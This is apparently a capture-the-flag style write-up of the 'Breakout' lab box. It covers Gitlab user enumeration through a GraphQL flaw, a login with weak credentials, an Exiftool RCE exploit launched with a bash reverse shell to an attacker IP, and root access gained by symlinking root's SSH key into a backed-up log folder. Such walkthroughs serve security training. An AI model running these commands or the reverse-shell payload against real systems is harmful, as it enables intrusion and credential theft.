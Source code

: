 # Breakout

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:28 +08
Warning: 192.168.183.182 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.182
Host is up (0.17s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

### Web Enum --> GraphQL

Port 80 reveals a Gitlab instance:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

I tried registering a user, but it wasn't allowed since the Gitlab administrator needed to approve first. I ran a `feroxbuster` scan to enumerate directories.&#x20;

```
$ feroxbuster -u http://192.168.183.182
200      GET      264l     1543w        0c http://192.168.183.182/search
200      GET      353l     2789w        0c http://192.168.183.182/help
301      GET        1l        5w       98c http://192.168.183.182/profile => http://192.168.183.182/-/profile
200      GET      363l     1838w        0c http://192.168.183.182/public
302      GET        1l        5w      105c http://192.168.183.182/snippets => http://192.168.183.182/explore/snippets
302      GET        1l        5w       96c http://192.168.183.182/projects => http://192.168.183.182/explore
401      GET        0l        0w        0c http://192.168.183.182/v2
302      GET        1l        5w      103c http://192.168.183.182/groups => http://192.168.183.182/explore/groups
200      GET      441l     2057w        0c http://192.168.183.182/webmaster
200      GET      441l     2057w        0c http://192.168.183.182/root
200      GET      363l     1838w        0c http://192.168.183.182/explore
```

There wasn't much from this though. I searched for Gitlab enumeration, hoping to get someone'e cheatsheet on how to enumerate Gitlab instances, but found this instead:

{% embed url="https://www.rapid7.com/blog/post/2022/03/03/cve-2021-4191-gitlab-graphql-api-user-enumeration-fixed/" %}

I tried their PoC of accessing Gitlab using `/-/graphql-explorer`, and it worked:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

### GraphQL User Enum  --> User Login

The CVE above mentions that this allows us to enumerate users using this query:

```
{users{nodes{id name username}}}
```

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

We have 2 new users, `coaran` and `michelle`. Then, we can login with `michelle:michelle`:

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

### Gitlab RCE

Using this user, we can enumerate the version of Gitlab running:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

This is vulnerable to the Gitlab Exiftool RCE exploit.&#x20;

{% embed url="https://github.com/CsEnox/Gitlab-Exiftool-RCE" %}

```
$ python3 exploit.py -u michelle -p michelle -c "bash -c 'bash -i >& /dev/tcp/192.168.45.208/4444 0>&1'" -t http://192.168.183.182
[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
```

<figure><img src="../../../.gitbook/assets/image (97) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### LinPEAS --> SSH Key

I ran `linpeas.sh` and it found some potential SSH keys.&#x20;

```
[+] Searching ssl/ssh files
ChallengeResponseAuthentication no                                                           
UsePAM yes
Possible private SSH keys were found!
/var/opt/gitlab/backups/mykey
/var/opt/gitlab/gitlab-rails/etc/secrets.yml
 --> /etc/hosts.allow file found, read the rules:
/etc/hosts.allow
```

We can read the file and verify that it is an SSH key:

```
git@breakout:/tmp$ cat /var/opt/gitlab/backups/mykey 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA4eDGWPfq/wKo4whXeFRr8Dq+wgoCClqpJmxRajPmCaSrULo/uPad
<TRUNCATED>
```

We know that there are 2 users on the machine, and I tested with both. Using this key, we can `ssh` in as `coaron`:

<figure><img src="../../../.gitbook/assets/image (15) (1) (8).png" alt=""><figcaption></figcaption></figure>

### Pspy --> Symlink Exploit

`linpeas.sh` didn't reveal much, so I ran a `pspy64` instead. I found some interesting processes involving zip files:

{% code overflow="wrap" %}
```
2023/07/12 07:46:01 CMD: UID=0    PID=320345 | bash /opt/backups/backup.sh 
2023/07/12 07:46:01 CMD: UID=0    PID=320346 | /usr/bin/zip -r /opt/backups/log_backup.zip /srv/gitlab/logs/alertmanager /srv/gitlab/logs/gitaly /srv/gitlab/logs/gitlab-exporter /srv/gitlab/logs/gitlab-rails /srv/gitlab/logs/gitlab-shell /srv/gitlab/logs/gitlab-workhorse /srv/gitlab/logs/grafana /srv/gitlab/logs/logrotate /srv/gitlab/logs/nginx /srv/gitlab/logs/postgres-exporter /srv/gitlab/logs/postgresql /srv/gitlab/logs/prometheus /srv/gitlab/logs/puma /srv/gitlab/logs/reconfigure /srv/gitlab/logs/redis /srv/gitlab/logs/redis-exporter /srv/gitlab/logs/sidekiq /srv/gitlab/logs/sshd

coaran@breakout:/tmp$ cat /opt/backups/backup.sh 
/usr/bin/zip -r /opt/backups/log_backup.zip /srv/gitlab/logs/*
```
{% endcode %}

Since this is being run by root, we can create a symlink here that points towards the `root` user's private SSH key. However, we cannot view the files or write to it as `coaron`, but it seems the `git` user can on the Docker container its in.

```
git@breakout:/srv$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop0    7:0    0 55.5M  1 loop 
loop1    7:1    0 55.5M  1 loop 
loop2    7:2    0 61.9M  1 loop 
loop3    7:3    0 61.9M  1 loop 
loop4    7:4    0 43.6M  1 loop 
loop5    7:5    0 67.2M  1 loop 
loop6    7:6    0 67.9M  1 loop 
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0    1M  0 part 
└─sda2   8:2    0   10G  0 part /var/log/gitlab
sr0     11:0    1 1024M  0 rom

git@breakout:/var/log/gitlab$ ls -la
total 80
drwxr-xr-x 20 root              root       4096 Mar  3  2022 .
drwxr-xr-x  1 root              root       4096 Feb 23  2021 ..
drwx------  2 gitlab-prometheus root       4096 Feb 17 17:18 alertmanager
drwx------  2 git               root       4096 Jul 12 07:37 gitaly
drwx------  2 git               root       4096 Jul 12 07:28 gitlab-exporter
drwx------  2 git               root       4096 Jul 12 07:38 gitlab-rails
drwx------  2 git               root       4096 Mar  3  2022 gitlab-shell
drwx------  2 git               root       4096 Jul 12 07:28 gitlab-workhorse
drwx------  2 gitlab-prometheus root       4096 Feb 17 17:18 grafana
drwx------  2 root              root       4096 Jan 30 10:45 logrotate
drwxr-x---  2 root              gitlab-www 4096 Feb 17 00:28 nginx
drwx------  2 gitlab-psql       root       4096 Feb 17 17:18 postgres-exporter
drwx------  2 gitlab-psql       root       4096 Feb 17 17:18 postgresql
drwx------  2 gitlab-prometheus root       4096 Jul 12 07:28 prometheus
drwx------  2 git               root       4096 Feb 17 17:18 puma
drwxr-xr-x  2 root              root       4096 Feb 16 17:18 reconfigure
drwx------  2 gitlab-redis      root       4096 Jul 12 07:27 redis
drwx------  2 gitlab-redis      root       4096 Feb 17 17:18 redis-exporter
drwx------  2 git               root       4096 Jul 12 07:27 sidekiq
drwxr-xr-x  2 root              root       4096 Jan 30 10:45 sshd
```

We can then create the symlink here:

```
git@breakout:/var/log/gitlab/gitaly$ ln -s /root/.ssh/id_rsa test1
```

Afterwards, we just need to wait for a bit before the script executes and makes a new zip file in `/opt/backups`. Once it does, copy the folder elsewhere and unzip it to reveal the SSH private key of `root`:

```
coaran@breakout:/dev/shm/srv/gitlab/logs/gitaly$ cat test1
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzAu+X5sUIUBGFen/rkbr6M09cLPZvlsrphqkjcZQ48zivybhHMIJ
<TRUNCATED>
```

We can then use this key to `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
